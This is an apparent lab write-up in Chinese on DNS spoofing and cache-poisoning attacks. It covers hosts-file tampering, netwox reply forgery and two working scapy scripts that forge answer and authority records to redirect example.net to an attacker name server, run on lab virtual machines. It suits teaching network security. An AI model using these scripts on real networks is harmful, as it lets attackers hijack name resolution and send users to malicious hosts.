







# DNS攻击概述

针对DNS的攻击方式：  
1、拒绝服务攻击  
2、DNS欺骗攻击，主要目的是给受害者提供虚假的IP地址

对域名系统的四个攻击面：  
1、在受感染的计算机中攻击  
比如修改/etc/resolv.conf或/etc/hosts等  

2、攻击用户机  
当用户机给本地DNS服务器发送DNS请求时，攻击者可以立即发送一个欺骗的回复  

3、攻击本地DNS服务器：缓存中毒攻击  
当本地DNS服务器向因特网中的DNS服务器发送迭代请求时，攻击者可以发送欺骗回复给本地DNS服务器。  
欺骗回复的信息通常被DNS服务器缓存，这个攻击被称为DNS缓存中毒攻击  

4、从恶意DNS服务器发起攻击  
比如用户访问attacker32.com这个网站时，一个DNS请求会最终到达attacker32.com的权威域名服务器。
除了在响应的回复部分提供IP地址外，这个域名服务器还会提供授权和附加部分的信息。  
如果用户不加选择地接受域名服务器提供的所有信息，攻击者就可以通过提供虚假信息来达到攻击的目的。  

攻击角度示意图如下：


## 攻击用户本机

假定攻破了用户主机，在/etc/hosts增加如下记录：
```bash
192.168.230.154 www.example.com
```
可以看到ping受到了影响，但dig没有影响


## 直接伪造结果给用户

当没有拿到用户机的shell，但是和用户机出于同一局域网，当用户机发dns请求时，对其dns伪造回复  
攻击机运行：  
```bash
sudo netwox 105 -h www.example.net -H 5.6.7.8 -a ns.attacker32.com -A 101.102.103.104
```
令网站www.example.net的查询结果为5.6.7.8  
查询该网站的域名服务器为ns.attacker32.com  
ip为101.102.103.104 


## 本地DNS缓存中毒攻击

上面的攻击是一次都要伪造一个数据包，比较麻烦，而DNS缓存中毒攻击则实现在一段时间内都不用伪造  
攻击的是本地DNS服务器。实现攻击最重要的是伪造DNS回复，这个回复是UDP数据包。

实验的目的是在伪造的回复中，把主机名www.example.net映射到IP地址1.2.3.4，并且告诉本地DNS服务器
example.net的域名服务器是攻击者的计算机ns.attacker32.com，这样一来，所有对该域的查询都会发往
ns.attacker32.com  

```python
#!/usr/bin/python
from scapy.all import *

def spoof_dns(pkt):
  if(DNS in pkt and 'www.example.net' in pkt[DNS].qd.qname):
     IPpkt = IP(dst=pkt[IP].src,src=pkt[IP].dst)
     UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)

     Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A',
                    rdata='1.2.3.4', ttl=259200)
     NSsec  = DNSRR(rrname="example.net", type='NS',
                    rdata='ns.attacker32.com', ttl=259200)
     DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd,
                  aa=1,rd=0,qdcount=1,qr=1,ancount=1,nscount=1,
                  an=Anssec, ns=NSsec)
     spoofpkt = IPpkt/UDPpkt/DNSpkt
     send(spoofpkt)

pkt=sniff(filter='udp and (src host 192.168.230.154 and dst port 53)',
          prn=spoof_dns)
```

步骤：  
1、打开wireshark，清空消息  
2、DNS服务端清理缓存
```bash
sudo rndc flush
```
3、攻击机器(这个实验必须要用三台虚拟机，攻击者用宿主机替代不成功)执行脚本  
```bash
sudo python dns_spoof.py
```
4、用户机dig域名
```bash
dig www.example.net
```


!!! Note 

    为了更方便测试，也可以将上述脚本filter改成： udp and dst port 53

攻击机器也可以不运行脚本，而改用一个命令：
```bash
sudo netwox 105 -h www.example.net -H 5.6.7.8 -a ns.attacker32.com -A 1.2.2.1 -d ens33 -T 600 -s raw
```
用户机得到dns解析结果：



将缓存转储到文件中，可以看到缓存已经被污染了

## 针对授权部分的攻击

上面的方法只有对一个域名的缓存，如果想要得到授权对一个域进行攻击的话，就需要配置一个合法的ip

实验的目的是伪造权威域名服务器，使所有example.net域的请求都指向attack32.com

```python
from scapy.all import *

def spoof_dns(pkt):
    if (DNS in pkt and b'www.example.net' in pkt[DNS].qd.qname):
        IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)
        UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)

        Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A',ttl=259200, rdata='192.168.230.154')
        NSsec1 = DNSRR(rrname='example.net', type='NS',ttl=259200, rdata='attacker32.com')
        Addsec1 = DNSRR(rrname='ns.attacker32.com', type='A',ttl=259200, rdata='192.168.230.156')

        DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1, qdcount=1,
             ancount=1,nscount=1,arcount=1,an=Anssec, ns=NSsec1, ar=Addsec1)

        spoofpkt = IPpkt/UDPpkt/DNSpkt
        send(spoofpkt)

pkt = sniff(filter='udp and dst port 53', prn=spoof_dns)
```

步骤：  
1、服务端清缓存  
2、wireshark清空  
3、攻击机运行脚本  
4、用户机dig  

可以看到attack32.com已经被当作权威域名  

!!! warning

    这部分书上是通过修改服务端配置文件的方式来做实验的，那首先得攻陷服务器。这里的方法不用攻陷服务器只是伪造脚本实现，
    更高明一点。